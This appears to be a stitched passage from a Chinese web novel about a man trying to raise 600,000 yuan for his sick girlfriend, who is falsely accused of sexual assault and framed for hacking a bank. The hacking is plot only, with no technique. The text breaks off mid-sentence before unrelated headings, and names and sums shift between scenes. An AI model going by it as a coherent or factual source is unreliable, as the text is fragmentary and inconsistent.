小女孩很聪明，调皮的笑了笑：“怎么你不信！”我摇了摇头：“信，只是我卖不卖肾，跟你有几毛钱关系啊？”她一字一顿，一本正经的对我说道：“一块钱的关系！”

我彻底无语了：“你别在这里跟我贫嘴，我还有正事呢！”说完转身就要向回走。

小女孩几乎命令的对我说道：“站住！”奇怪的是，我居然站住了。

我缓缓的转过身，女孩一副得意的样子，拿着存折对我说：“我这里有三十万块钱，是我这么多年的勤工俭学攒下来的，你先拿去吧，几十年之内不用着急还我。”

三万？我哑然失笑道：“真的，谢谢你这么信任我，也这么关心我，但是我请你收回去。三万对于我来说，打水漂还不够呢！

# 侠隐仙踪

真的谢谢你！ ”
女孩愣了愣说道：“啊？那么紧急啊。那你也不用卖肾啊！一定还有别的办法的！”
我愕然的看着她。她还能有什么办法啊？她眨眨眼笑着说道：“要不，我们入侵一家大公司，六十万对于那些大公司来说也不算多，只要技术上处理的好他们短时间内是发现不了的。”
靠，我以为她能有什么好主意呢，原来就这啊？我不就是因为不想犯法，所以才走这一步的吗？我生气的转过身，对她冷冷的说道：“少异想天开了，我不会这样做的，你也少管我的事！”
“反正不许卖肾！”她倔强的对我喊道。我充耳不闻的向回走去。
女孩突然跑过来拉住我。我企图挣脱她的拉扯。突然她鼻涕一把，泪一把的冲周围边哭边喊：“不要啊，救命啊，强奸了，救救我啊！”此刻这个小女孩把我的手放在她裙子上了。
晕倒！这是什么跟什么啊？我想解释，但是都埋没在人们的谩骂声中。女孩看着大家对于自己虚伤的眼泪无比信服的情况，哭声更大，更加的无辜。这小女孩不去拍电影真是中国影视界的一个重大的损失啊。不知道是哪个不怕事大的主儿，二话不说就拨打了110。
结果自不用说，我被警察叔叔请进了派出所。这一天来，我经历了很多平生的第一次。
- 第一次准备卖肾。
- 第一次被人骂成强奸犯，变态色魔，无耻下流的流氓。
- 第一次和警察叔叔零距离接触。
- 第一次被警察叔叔带上了冰冷的手铐。

（持续）


在派出所里一呆就是一天零一夜，我第一次如此烦躁和不安。倒是对面那个小丫头仿佛一点儿也不着急，和警察一边谈笑风生，一边喝着咖啡、嗑着瓜子。好像我根本就不存在，或者也似乎忘记了她来派出所是干什么的，看见帅哥警察就两眼冒金光。
第一次进派出所，警察就以非常公平公开的方式对我进行了罚款，罪名是在公共场所有伤风化，对田甜（那个陷入性骚扰危机的死丫头）进行性骚扰，并且情节严重，给予五千元罚款。
天啊，上帝啊，要么救救我，让眼前这些该死的警察和那个田甜都消失，要么就一个雷劈死我吧！不过这两种方法上帝都没有理会，反倒是警察十分不耐烦的催促我快点掏钱交罚款，否则就要拘留十五天。
其实我倒很想留下来被拘留的，因为没钱，就算有钱也要攒着给雨薇治病。但是从小到大父母怕我在外惹事，不断的给我灌输监狱和看守所的可怕性。虽然后来上了大学，也知道了监狱和看守所都是以法律行事的，但是从小到天由父母灌输给我的那种可怕景象却一直保留在我的脑海里，而且是挥之不去。
我颤抖的接过罚款单，恶狠狠的盯着田甜那个臭丫头，现在我兜里没钱，找萧然吧，太没面子了，找雨薇或者我父母，那还不如让我死了算了！苍天啊，我卖个肾，招谁惹谁了，这肾还没卖呢，就要先往里贴钱。看着罚款单我的肾都开始疼了。
“怎么了？需要帮忙吗？”田甜这个丫头满面春风的对我说。
“为什么帮我，我不是流氓吗？”真不明白这丫头是什么意思，这帮警察是什么智商。这个死丫头这么跟我说话，说明我根本就不可能是骚扰过她。顶多是她主动勾引我、或者更严重的说两个人存在奸情，却对不可能是我在骚扰她，但是实践证明警察的IQ是零。
“是不是流氓不是你说了算，我说你是，你就是，我说你不是就不是。”田甜非常得意的说道。哇靠，你以为派出所是你家开的，你代表法律啊？我持十分怀疑的态度说道：“好，你帮我一定是有条件吧！”
田甜赞许的说道：“你还真是聪明！第一，以后你是我的徒弟，我是你师傅。第二，我对你是随叫随到。第三，绝对不许卖肾。”
天啊，请你救救我吧！我卖不卖肾跟她到底有几毛钱关系呀？面对这个丫头的不平等条约，我几乎毫无疑义的同意了她的无理要求。我倒要好好看看她是怎么给我这个全天下都认为是流氓的家伙洗脱罪名的。
田甜看到我同意后，不声不响的拿起手机在一旁不停的发着短信。真希望这个家伙能快点，要知道我已经一天一夜没吃东西了，而且在派出所每分每秒我都有肾疼的感觉。
忍受了半个小时的煎熬后，突然派出所闯进一个风风火火的女人。进到派出所就大喊大叫的吼道：“田甜啊，你在哪里啊？田甜啊！”
看到田甜一脸担心的说道：“你这两天到哪里去了？担心死姐姐了！”真不知道怎么回事又多了一个奇怪的家伙，看来我这次一定死的很惨。
“喂，你是什么人啊？”警察终于站出来了。
那女人一见警察就一把鼻涕，一把眼泪的说道：“对不起啊，这个女孩是我妹妹，患有妄想症，只要看到长相猥琐的人，就拉着人家说是流氓！”
长相猥琐！？难道我长相猥琐吗？我天天照镜子，虽然经常自恋的以为是个难得一见的大帅哥，但保守的说却从来都不觉得自己长相猥琐啊？天啊，这个疯子在胡说八道什么呢？我得意的看着偷偷冲我做鬼脸的田甜，你以为你把警察会相信吗？我看你怎么收拾残局。我一副得意洋洋的样子在旁边看着好戏，看警察怎么收拾这个死丫头。
但很快，我就失望的发现，警察的智商确实不敢恭维，听了那个女人的疯言疯语，居然一副很同情的样子看着田甜，好像这场闹剧里受伤的人是田甜而不是我。怎么倒霉的事都让我碰上了。遇见一个古灵精怪的田甜就算了，居然又来了一个疯言疯语的女人，还有这个智商不高的警察。不过幸好那女人办理了一些相关的手续，警察终于准备放我回家了。临走的时候，警察同情的看着我说道：“你也别太郁闷了，长相猥琐也不是你的错，以后出门前戴个口罩就没事了！”
我靠，这是什么世道啊。我现在真想找个地缝钻进去。不过不管怎么说，总算是出了派出所。
一出派出所，我连忙跑进附近餐馆一顿风卷残云，把餐馆的服务员和老板都吓傻了。从我吃饭到付钱，一个多小时，整个餐馆鸦雀无声，虽然没怎么吃饱，但是我还是付了钱，真是怕把这些人不说话憋坏了就不好了。
出了餐馆，田甜那个小丫头站在餐馆外面嘴里嚼着口香糖，手里拎根烟，完全就是一小太妹。看见这个丫头我心里就窝火，转身刚准备离开。这小丫头扔掉烟一脸无奈的说道：“喂，你就不能说句谢谢啊？”
我没听错吧？要我说谢谢，是谁害的我啊？我气得也顾不得什么帅哥风范了，大声叫着嚷着：“喂，臭丫头你还有完没完？”
田甜一副理直气壮的样子：“你嫌我啰嗦？要不是你我还在派出所蹲着呢！”
“要不是你，我能去派出所吗？”
“行了，你也别那么小气了，现在你也


# 侠隐仙踪

“吃饱喝足该想着怎么才能弄到钱了！不过事先你要告诉我，你需要多少钱啊？”田甜笑眯眯地问道。

“六十万！有吗？有就借我吧！”我简直就要火冒三丈了。

这次轮到田甜傻眼了，傻傻地说道：“六十万啊！这么多啊！那就入侵银行或者淘宝什么的吧！或者蓝天国际贸易有限公司吧，那个公司挺有钱的！”

我感觉全身上下都在冒火，一个劲地告诉自己要冷静，到现在我真的是无话可说了，一开始我就决定不去犯法，牢狱生活虽然我没有体会过，但是可怕程度我是可想而知的，尤其是刚刚在派出所呆了一天一夜。废话我不想多说了，再说跟这个丫头也说不清楚。我转过身大步流星地向公交车站走去，不管怎么说也得回家补个觉再去想钱的事。

“喂，你有没有听见我说话啊？你要干什么去啊？”那小丫头在身后跟我歇斯底里地嚷着。标准的泼妇材料！“你是不是还想去派出所。”

大脑连想都没想，马上就在原地立正站好了，可想而知这句话的分量真的可以和定身咒媲美。我现在真的想宰了这个家伙，并且已经开始想着用什么方式杀人，甚至消灭灭迹。真不知道前辈了我做了什么孽，这辈子遭到了这样的报应。不过还没等我想完，这个丫头就发挥了她超能力的本领，像拎着小猫一样把我拎进一家网吧。

“好了，现在我们就开始犯法吧！”

犯法？我痛哭流涕地看着这个死丫头。无奈地说道：“我不想犯法，我求求你了，放过我好不好？”

田甜第一次以一种很认真的表情看着我：“我真的很想帮助你，我是说真的。我知道你一定有困难才去卖肾的，但是请你不要伤害你自己，让我帮你好吗？”

“我，我……”我因为感动而有些哽咽。但感动归感动，却不能解决问题。我只好笑了笑说道：“田甜你还小，哪里能帮我弄到钱啊！对你来说最重要的是学习，知道吗？”

“我有办法的，我是你师傅，技术一定很高超啊，所以入侵个网站没问题。尤其像蓝天这样的公司，财务部分的网络技术都是很薄弱的。”田甜一副志在必得的样子。

“你不怕犯法吗？”我真担心这个家伙。

“不怕！你害怕啊？”

“废话，当然害怕了。”真怀疑这家伙的脑袋是不是有毛病，为什么总要入侵网站呢？“田甜，你听我说，法律我不是不准备触犯的，你也不能触犯，明白吗？”

田甜一副觉悟的样子说道：“你说的对，入侵蓝天公司，劳精费神不说，还犯法。”我赞同地点点头。田甜又沉思了一会儿说道：“也是啊，蓝天再有钱，也是爷爷的，六十万数目也很巨大，要是要不来的，怎么办呢？对了，要不，你绑架我吧！索取金额六十万，爷爷一定会救我的！”

“住口！”到底这个家伙怎么回事，怎么总跟法律过不去啊？“田甜，我有没有对不起你吗？”

“没有。”

我不死心地又问道：“我伤害过你吗？”

“没有。”

我更加纳闷地问道：“我是不是长相真的很龌龊，让你这么厌烦我？”

“你怎么这么说啊？我不讨厌你，你也很可爱，长相还算帅气吧，最重要的是很有个性。”她好像是在夸奖我吧！

“那我就不明白了，你为什么总让我干一些犯法的事呢？”我不解地看着眼前这个外表天真无邪，内心却乱七八糟的漂亮女孩。

“我不想害你，你不是缺钱吗，我也是帮你啊！”

我真费解了，这个家伙脑袋里到底装着什么啊。我面部表情很痛苦地说道：“为什么要帮我啊？你能不能不要管我的事啊？”

田甜突然脸红了起来，神秘地笑了一笑说道：“因为，因为我很喜欢你。从小爸爸去世以后，我就一直跟爷爷在一起生活。爷爷担心我被人欺负，学校里，家里每个人上上下下对我的话和要求都不会有一丝懈怠。但是这不是我要的生活，我希望自己做错事的时候，父母可以责罚我，骂我。虽然我一再地犯错，犯的错也越来越大，但是爷爷、家人和学校都是放松，溺爱我。所以我是孤独的。即使是在网络上，每个人也都是甜言蜜语的虚伪。只有你，那么的特别。”

嗯，果然是有心理障碍，被溺爱惯了，就希望人欺负尝尝苦头，纯属于身在福中不知福的类型。我淡淡地一笑说道：“呵呵，被人爱着还挑三拣四的，算了，不用帮我，谢谢你的喜欢，可是我已经有喜欢的人了，我走了！”

田甜连忙拉住我，满眼无辜地说道：“你喜欢我吗？愿意和我在一起吗？”

不会这么直白吧，被人告白总会很高兴吧。但是不知道为什么这时候我却想到了雨薇。那个三年前纯真漂亮的女孩，现在娇媚古灵精怪的她，想想也好久没有见她，思念原来是这样的强烈。

田甜脸上的表情有些难堪，又沉默了一会儿说道：“我不急着你答应我，你可以考虑一下。”

“不用了，我有喜欢的人了。对不起，再见了。”我迎着田甜欲哭的面孔，居然会心痛。转身准备离开的时候，田甜抓住了我的手背，指着电脑屏幕说道：“你看看，如果我可以给你弄到六十万，你也不答应吗？”

我看到屏幕上面是一些网页，还有一些破解、注入工具，还有就是蓝天财务系统的转账信息。转账的账号居然是田甜的名字，数目是六十万。我愤怒地说道：“好像刚才我说的话都是放屁一样，我说了不要犯法，你干嘛还入侵蓝天公司啊？”说实话这个家伙还真是厉害，就在刚才不知不觉中就入侵了蓝天公司的财务系统还真是不简单。只是这一直都不是我想要的结果。

田甜的眼睛里含着泪水，咬着嘴唇说道：“蓝天公司就是我爷爷旗下的，怕什么，反正我爷爷也不会把我送进监狱的。胆小鬼，我这么做都是为了你好，知不知道。”

见过任性的，没见过这么任性的。她是我的女儿，我肯定上去就送她两个巴掌。我狠狠地说：“爱你，不是你用来伤害爷爷的资本和理由。何况，你给了我六十万就是让我和你在一起为代价吗？你是在买我吗？我是想卖肾，但是从来没有说过要卖身！”我觉得再留下来都是多余，站起来挣脱田甜的拉扯走了出去。迎着晚霞，有种想痛苦的冲动。为什么每个人都有各种各样不快乐的理由。那么我们活着是忍受痛苦，还是为了享受快乐呢？钻进了一辆出租车，却仍然忍不住回头看着那个站在夕阳下，孤独的田甜。晚风中那哭泣的眼，倔强的脸，让人迷惑，不知道那是爱的疼痛，还是悲哀的伤！

终于回家了，我终于回到家里了。本想大睡特睡一觉的，可是我自己的电脑是打开的。仔细回想起来好像我从来都没有开过电脑。我连忙走到电脑前，屏幕上什么也没有，好像什么都不曾发生过一样。我清楚地记得电脑是关闭的，而且这两天就田甜和我在一起的。那么开启我电脑的人是谁？难道田甜不是入侵我的人？

不知道为什么我感觉此刻自己正陷入一场阴谋中。这样的感觉让我不寒而栗，非常的不安。我检查门窗，发现没有被撬开的痕迹。开始查找任务栏和最近的访问记录，发现一切都被清空了，就连几天前我的访问记录都消失了，我坐在椅子上大脑一片的混乱。

突然我想到了一一个软件，这个软件在电脑里是隐藏的。主要的作用是记录一些我曾经访问的文件和网站，也是为了防止田甜不在我的电脑上胡作非为，这些文件我都是保存在U盘上的。这个软件是我自己编写的，从来没有在任何网站上发布过，应该是没人知道的。

打开U盘里的内容，找到隐藏文件，输入文件的密码，里面就是我的访问记录。不过打开之后，差点没把我吓死。原来我离开这两天的时问里，我的电脑一直都在试图入侵中国银行。而戏剧性的事情就是这样发生了，在这个时候居然有另一个人入侵了，而且很显然这个人的技术要比另一个高超，很快这个人侵之后，那个替人入侵中国银行的家伙被驱逐出去了。然后这个高人开始清除所有的访问记录。如果不是那个高人相救，恐怕现在我已经被网警带走了，连看守所也出不来了。倒是很省事。很显然我正被一场阴谋强者，而且还没有完结，我现在正在被这场灾难的漩涡残害着。但是我却不知道制造灾难的人是谁。我拔掉电脑的电源线，恨不得把电脑都拆了。最近说什么也不能上网了，太危险了。

就在我担惊受怕的时候，门铃响了起来。门开了，雨薇微笑着站在我的面前。看到我的那一刻眼泪掉了下来。轻声地说道：“我终于把你找到了。”

我愣了，半天没说出话来。忘记思考雨薇是怎么找到我的，也忘记替她擦掉眼泪，只是那样傻傻地看着她。雨薇不客气地走了进来，看着我的猪窝皱了皱眉头，然后像家庭小主妇一样开始整理房间里面的垃圾。而我好像是一个白痴一样，看着她把那些垃圾都放在一个袋子里，看着她把电脑和书桌擦得干干净净，看着她把地板和玻璃变得闪亮。突然心里很酸，如果不是我三年的背叛，也许这样的生活每天都属于我。

收拾了房间之后，雨薇拉着我来到了菜市场和那些卖菜的大妈们一阵口舌之争，满载而归。回到家里，她围着围裙哼着好听的歌，在厨房忙活着，而我坐在电视机前，看着电视机的画面，大脑里却全是雨薇微笑的脸，耳旁全是她哼着的歌。

晚上九点，我们才围在饭桌前进行了一场惨绝人寰的饭菜大屠杀。吃饱喝足之后，雨薇看着我满脸饭菜的残渣甜甜地笑着，像是这季节的晚风一样轻柔而又舒适。

雨薇从包里拿出一张存折，尴尬地说道：“我知道你一定有事瞒着我，而且我也知道你很缺钱，这些虽然不多，但是你先收下，我还会继续想办法的。”

我不知道该说什么，也许她还不知道自己的病情，但是现在我真的很缺钱，所以什么都没说，拿起了钱，声音极小的说：“我会还你的！”

雨薇眯着眼睛笑着说道：“你以为我借钱就白借的啊，快去，给我刷碗去。”

“咦！”我爽快地答应着。如果可以给我和雨薇一辈子的时间，我愿意每天都刷碗，洗菜。对于我来说，这就是莫大的奢求和幸福。

终于稀里糊涂地把碗筷都洗完了，从厨房里跑出来，雨薇在卧室里喊着说：“你去冲个澡好吗？”

不会吧，这也太直接了吧？雨薇的话刚刚说完，我这边就已经鼻血飞流直下三千尺了。二话不说嘭的一声就摔进了浴室。我也不知道自己洗的是哪里，反正以最快的速度钻出了浴室。不知道自己是穿着衣服进卧室，还是配合一下雨薇直接一点，什么也不穿。最后我决定还是穿着睡衣吧，万一雨薇那个丫头给我来个难堪，我这张脸可就丢大了。

做好了一切的思想斗争之后，我诚惶诚恐地出现在卧室门口，轻轻地敲着门。长这么大第一次这么斯文过。得到雨薇的允许后，我走进了卧室。雨薇安静地躺在床上，温柔地说：“你累了吧，过来，睡吧！”

这一情节让我联想很多，强制地按耐着自己激动的情绪和鼻血，连滚带爬地来到了床上。看着刚刚出浴的雨薇，身上好像发了烧一样，热血在内心显得沸腾了。但还是不敢紧紧地抱着雨薇，窝囊有距离地躺在雨薇的身边。

“抱我！”

晕，雨薇主动发话了，这可不是我的错啊。就在我情绪高涨的时候突然意识到雨薇的语言中有哽咽，有悲伤，有压抑，有痛苦。但是我拒绝了她，轻轻的，就像是相爱多年的夫妻那般。雨薇紧紧地抱着我的身体，就像是害怕一张开手就会失去一样。她哭了，因为她的肩头在颤抖，泪水印湿我的睡衣。这样的夜晚，这样的爱人，能让我幸福，而是心酸。

她幽幽地说道：“三年来，每个夜晚我都难以安眠，我总会觉得消失了什么，还渴望着什么。可最终才发现原来找寻的只是曾经沉重难以遗忘的爱。在你离开这段日子里我开始努力地回忆，拾起记忆的时候，决定再也不会放开你，任何情况下都不会！”城市霓虹灯的映照下，她漂亮的脸上是多么让人心疼的倔强。我把搂得更紧，三年来我何尝不是如此。只是如今这份深爱该用怎样的时间单位去计量。　　（待续）

## 我的老婆是买来的

清晨，睁开眼睛看着朝霞映红了整片天空，看着枕头上残留的发丝，还有被窝里的余温我真后悔昨天晚上居然什么都没有干，如果这事传出去，估计所有女人都会认为我很纯洁，所有男人都会认为我很败类，也包括我自己。

在床上睡了无数次的回笼觉，最终被雨薇揪着耳朵从床上拎了起来。看着端到眼前的盘子里，金黄色的煎蛋泛着幸福的味道。我笑着对雨薇说：“那么让我怎么报答你呢？亲一下呢？”

“色狼，滚开！”接下来的事情是我始料未及的，因为雨薇一脚把我踹到了墙角边上。很难想象她是一个生了重病的人，也庆幸昨天晚上没有占她的便宜，否则恐怕现在我的小命就不保了。我捂着肚子看着雨薇得意的笑，我就纳闷怎么现在的女孩子都那么的野蛮啊！就在我极度郁闷的时候，一阵敲门声打消了我所有的计划，我只好快快地去开门。

“老公，你看，我给你买早餐了，怎么样？我乖吧！”打开门之后田甜一脸兴奋地嚷着。手里拎着好多吃的，不过她的话音刚落，我就感觉到身后那股杀气的威力，简直可以与核武器的杀伤力相媲美！

田甜看了看我身后的雨薇，撅起嘴巴，眼圈红红的，眼泪簌簌地掉了下来，委屈地说道：“老公，你怎么又换了一个女人，你口口声声说爱我，都是骗我的吗？”

她一口一个老公地叫着，我还没明白是怎么回事呢，现在又来一句又换一个女人。天啊，我扭过头看着雨薇那张绿了又黑了的脸，世界末日就在眼前了。这次看来我是跳进黄河、长江、七大洋也洗不清了。

不过我还是要在为自己的清白挣扎一下。连忙对田甜一脸愤怒地吼道：“田甜，你不要无理取闹好不好？难道这样有意思吗？”

田甜眼泪马上更加汹涌了，我真佩服了，演戏的技巧真是太高明了，我在她面前就像是幼儿园里面尿裤子的小朋友。田甜用恶毒的眼神看着我说道：“你太没良心了，昨天因为性骚扰别人被拘留，还是我保释你的。今天你就给我弄个狐狸精回来，现在还挺跟我这样说话，你个混蛋！”

看到雨薇的脸又从黑变成了白，我实在忍受不住了，一把将田甜推倒在地上，大声地说道：“你不要胡说好不好！我告诉你，我跟你没有任何关系，请你不要总来骚扰我！”

田甜哭得更凶了，她站了起来，走进房间对着发愣的雨薇就是狠狠的一巴掌，吼叫着说道：“狐狸精，你到底想要多少钱？给我说然后永远地消失在我的眼前！”

田甜这一巴掌打在雨薇的脸上，也仿佛打在了我的心上。我发疯一样地跑过去，扶住雨薇，看着田甜这个恶魔真的很想吃了她。我一字一顿地说道：“田甜，我恨你，现在给我滚出去！你这个疯子，泼妇，神经病！”我想把所有恶毒伤人的语言都骂尽，但是由于从小到大我受的都是文明教育，所以没有掌握太多恶毒的语言。

不过这好像足以让田甜受伤了，她瞪着雨薇说道“你怎么到底为什么？”

雨薇扬起头冲着田甜微微一笑地说：“为了和我爱的人在一起，而且他也爱我，我们会结婚的，永远地在一起。”怀中的雨薇还在因为这场雨颤抖着，但是她的话每一个字都是那么坚定决绝。听到这些，我的眼泪刷的一下子流了下来，仿佛这句话是世界上最曼妙最曼妙的语言。

田甜此刻也在颤抖，呢喃地说道：“我才的是他的女朋友，我才是！”

雨薇淡淡地一笑“昨晚我在这里住下了，发生了什么我不想多说，我像个妻子一样给他做早餐，为他打扫房间，而且我会陪他度过每个夜晚。”

田甜跌坐在地上，像几个岁的孩子一样嚎啕大哭了起来，边哭边喊着：“我输了，我输了，为什么输的人总是我，为什么总是我！”

雨薇没有说话，只是闭上了眼睛，整个身体都失去了重心瘫软在我的怀里。我吓坏了，大脑嗡的一声，焦急地呼唤着雨薇：“雨薇，雨薇，你怎么了？别吓我，求求你了！”但是雨薇像是一个木偶一样任由我的摇摆，却不给我任何的回应，我连忙抱着雨薇像楼下跑去。

转过身狠狠地瞪了一眼田甜，如果雨薇有什么事的话我会恨她一辈子，不过此刻田甜居然也不哭不闹了，一脸得意的奸笑，看着我倒着竖起了中指。用我此刻的心情来说，很想狠狠地抽她几巴掌。但是现在最要紧的是不出气，我要赶紧把雨薇送到医院才是。

好不容易叫到了一辆出租车，但是由于是上班的高峰期，街上的车比天上的星星还要多。现在我非常痛恨这些车辆的制造商。没办法只好背着雨薇下了出租车从路上飞奔。看着大爷大妈们指指点点的样子，估计他们早把我当成精神病了。

来到医院还是上次那几个医生和护士，看着他们怪异的眼神，估计又开始怀疑雨薇昏倒的真相了。不会又怀疑是我偷窥未遂让雨薇愤怒过度而晕倒的吧！

医生把雨薇送进了急救病房，我的心也随着那盏亮起的红灯悬挂了起来，大脑里面一片空白。这一切都是真实发生在我身上的吗？为什么我会觉得那样的恍惚。田甜为什么要这样做呢？我总觉得巨大的阴霾席卷而来，压得我无法呼吸，一切都是那样的沉重，而现在我唯一能做的就是站在急救室外祈祷雨薇能够平安无事。

“你在这里干什么？”萧然站在我的身后，脸色晦暗地看着我。

“萧然，雨薇病了，在急救呢！”我几乎没有任何力气地回答着。

“雨薇去找你了？你对她说了什么？她怎么会变成这个样子？”面对萧然的质问我的一个字也解释不出来。我总不能说不知道从哪里冒出一个师傅来，把我送进了派出所，然后又抽了雨薇一巴掌。就算是萧然不揍我，我自己想到这些也很想自杀身亡。

“你觉得你真的要和雨薇在一起吗？你觉得你能给她幸福吗？”面对我的沉默萧然似乎并不满意。

我抬起头很认真地说道：“等她病好了，我们就结婚。我想好了无论怎么样都要给她幸福。你知道吗？分开这段日子，我痛苦，她也不好过……”

“你太自私了，你能给雨薇什么样的幸福呢？让她三天两头地住医院吗？”萧然激动地揪起我的衣领，那样子似乎要把我吃了都不解恨。

“我是自私，但是难道你想看到我和雨薇这辈子都不快乐吗？”经历那么多的离别和伤痛，对我来说没什么比和雨薇在一起更加的重要。

“哼，我想你会后悔的！”萧然的样子很吓人，他这个样子让我觉得非常陌生，他的眼神让我直冒冷汗。此刻的我已经完全崩溃了，雨薇的病情，田甜这个妖怪的从天而降，萧然巨大的变化，让我真的无法接受。

“谁是病人家属，病人已经醒了。”听到医生的召唤后，我连忙从椅子上站了起来向病房走去，但是萧然却抢先一步站了起来，直接走进了急诊室然后轻轻地关上了门，整个就把我给扔在了门外，好像病人家属是他，而我只是一个跟雨薇毫无关系的陌生人一样。

想到这里我就愤怒，雨薇明明就是说我才是她的结婚对象，对待朋友的老婆干什么这么亲密啊？我怒气冲冲地推开门，本来想教训一下萧然这个家伙，但是首先映入眼帘的却是雨薇那张苍白冷漠的脸。

“雨薇，你还好吗？哪里痛告诉我！”我跑到了雨薇的病床前，看着雨薇憔悴的脸心疼得不得了。

“你躲开，难道你伤害雨薇还觉得害的不够吗？”萧然一把将我推开，面目可憎的样子简直让我想吐。

“你干什么，刚才在我家，田甜来的时候，雨薇已经承认我们的婚事了。”为了让萧然给我退避三舍，我必须使出杀手锏了，要不然老婆还没娶到手，就准备勾引我老婆，给我扣上一顶绿帽子了。

萧然脸色都气黑了，抛给我一个白眼问道：“是吗？田甜是谁？”

“被我性骚扰的人啊！”晕了，我说什么呢？“不是，是诬告我性骚扰她的人！”我真怀疑自己的智商出了问题，随便编个认识的理由不就行了，干嘛非要说实话呢？

萧然冷笑着，看了看床上的雨薇。雨薇的脸色从白变成了黑色，眼睛里居然含着泪水，幽怨地看了看我，扭过头看着窗外的天，叹息着说道：“你们都走吧，我不想见到你了。”

“雨薇，你听我解释好吗？事情不是你想象那样的，事情是……”

可是还没等我说完，萧然就得意地说道：“好了，你还没有听到雨薇让你滚吗？”

雨薇看了看萧然，厌恶地说道：“萧然，你也走吧！”

萧然吃惊地看着雨薇说道：“为什么？我留下来照顾你啊！”

“不用了，我没有事的。你走吧，一个负我，一个骗我。我讨厌你们！”雨薇的眼泪终于掉了下来，我和萧然都内疚地低下了头。

想起几年前的事情，如今怎么能让雨薇不误会呢。我低声地说道：“雨薇，我走了，明天来看你。如果我真的做了对不起你的事情我发誓自己会不得好死，求你相信我！”

雨薇的肩头还在颤抖，但是我已经无话可说了。轻轻地走了出去，心情异样的复杂。为什么不幸的事情都被我遇到了呢？

刚刚走出急诊室，迎面就走来了几个警察。由于上次性骚扰事件给我心里造成了严重的心里阴影，所以看见警察我连忙低下脑袋，双脚有点发抖。

“请问你是林小木吗？”

晕，我都已经躲着他们走了，怎么又找上我了。回想起来，这两天我很老实啊，我也没骚扰谁啊。怎么这警察又找上门了，我都不知道自己的嘴巴是怎么张开的。支支吾吾地说：“是，是啊，又怎么了？”

“你涉嫌入侵中国银行，恶意挪用六十万人民币。现在我们请你回派出所协助我们调查。”警察说完这句话，我就已经感觉到天旋地转了。入侵中国银行盗用六十万，够给我判终身监禁的了。回想起刚从公安局出来那会儿，电脑里面那个入侵我的家伙，试图要用我的电脑入侵中国银行是不是跟这件事有关系呢。

“不是，警察先生我没犯法，你们一定是弄错了，我没有入侵中国银行，真的没有，请你们相信我。”不过好像我的解释很苍白无力，警察几乎就是把我架起来了。那有没有分别多久的手铐又扣在了我的手上。

“等一下，木子没有犯法，你们干什么，快点放开他。”不知什么时候雨薇已经和警察扭打在了一起。看到这么激烈的场面，雨薇这只小绵羊掉进了狼群里了，看着雨薇撕扯着拽住我的警察，抱住我的肩膀，眼泪簌簌地掉下来，哭得我的心都疼了。

三四个膀大腰圆的警察拉着我可怜的小雨薇，边拉边劝地说道：“小姐，请你冷静，林小木只是陪我们回去调查一下，请你放手好吗？”

“不，我不放手，你们为什么一定要抓他，他没有犯法，放开他！”雨薇因为过分激动，已经完全抱住了我，整个人都挂在了我的身上，而警察也试图把雨薇从我的身上弄下来。

“雨薇你快下来，警察先生请你们放手不要这样拉她，她是病人，她是病人。我慢慢地和她说。”这个时候萧然连忙挤进人群，紧紧地搂住雨薇。一听到雨薇是病人，那几个彪悍的警察全都放开了手。萧然轻轻地拉着紧紧抱着我的雨薇说：“乖，雨薇放开手，警察都说了会调查清楚的。”

雨薇哭得已经不能呼吸了，狠狠地甩开萧然的双手，恶狠狠地说道：“放开，这一直都是你想要的结果吧？我不放手，我不放手，小木，小木……”剩下的只是雨薇哭泣的呢喃。

萧然狠狠地瞪了我一眼说道：“你还不说句话？”

我这次才从迟愣中醒悟过来，轻轻地抓住雨薇的手说道：“小傻瓜，只是去调查一下，我答应你，一定会回来的，你还答应过要嫁给我呢，你不要反悔，我很爱你，所以小傻瓜要听我的话。放开我，没准明天我就回来接你出院，然后就去登记结婚。”

雨薇抽噎地看着我，轻声地说道：“你一定要记得你说过的话。”

我重重地点了点头，警察这才艰难地把我从我的身边拉开，一步一回头地看着紧紧跟在我身后的雨薇。她还在哭泣，那一刻有种生离死别的悲伤。

警察呼啸而过，我可以从车后窗看到雨薇紧紧跟着警车奔跑着，夕阳柔和的光却无法温暖这凄凉的情景。

在网络犯罪研究中心我终于明白这到底是怎么回事了。原来我的IP地址和电脑有显示我入侵了中国银行，而且盗窃了六十万巨款。天啊，有没有搞错我入侵中国银行？我冷静地想了想说道：“我可以证明我是无罪的，因为我的电脑里面有一个软件，它可以记录我的访问途径，还有一些入侵记录。”

“你的意思是有人陷害你的？”警察转动着笔，一脸威严地看着我。

“是的，那个U盘可以证明我的清白。”虽然我很紧张，见到警察肾都疼，但是为了我的清白我豁出去了。

警察非常严肃地看着我说道：“可是我们已经没收了你的电脑，发现根本就没有U盘。”

没有？我的大脑嗡嗡地开始作响。这时候我的大脑里面闪现过无数电视剧情节，在这种情况下最好保持沉默，我擦了擦额头上的汗说道“我希望你们好好找找，我无话可说了。”感觉身上的汗都快要把我变成了落汤鸡了，谁说做贼心虚的，其实不做贼被警察审问心也会虚。

所以这件事就一直都在调查当中，我的律师竟然告诉我，现在一点证据都不能证明我是清白的。一切似乎毫无转机，本来以为这次坐牢是一定的了，但是我惊奇地发现，我入侵中国银行的时间居然就是由甜来我家之后，我送雨薇进医院这段时间。那么雨薇和医生都可以证明我是无辜的啊！

不过还没等我把这件事告诉警察，萧然就来到了看守所。我似乎见到亲人一样，简直热泪盈眶一大把。一把拉住萧然说道：“萧然啊，这次你一定要救救我，我有一个U盘丢了，你帮我找到就能证明我是无罪的了。还有你帮我去医院里面找雨薇的主治医生这样可以证明我是无罪的。”

萧然推开我的双手，面无表情地说道：“你等下，我有事和你说。据我所知那六十万还没有找到，不过六十万打在你的一张卡里面了，现在这张卡在我的手里。”我冷冷地看着萧然，一句话也说不出来，突然我感觉也许这一开始就是一个阴谋，而阴谋的主使就是萧然。

萧然颓然地看着我说道：“如果你认罪了，这笔钱你死不承认，那这笔钱就可以给雨薇治病了。”

我觉得自己快要爆炸了，怒气冲天地说道：“你什么意思，那么就是说一切都是你制造的，你的目的到底是什么？”

萧然冷笑着说道：“你觉得我们为什么会成为好朋友？你觉得你的人格魅力很大吗？如果不是因为雨薇我不会认识你。从雨薇出车祸的那天起，我就想方设法地接近你。时间久了，我以为我淡忘一切的嫉妒，但是失忆了的雨薇居然看见你的那一刻起就重新爱上你了。为什么我总要失败，为什么雨薇的心里只有你。由甜喜欢我很久了，是我把她安排在你身边的。当然目的也是为了这一天，可是我万万没有想到雨薇仍然会想起你，会离开我。”

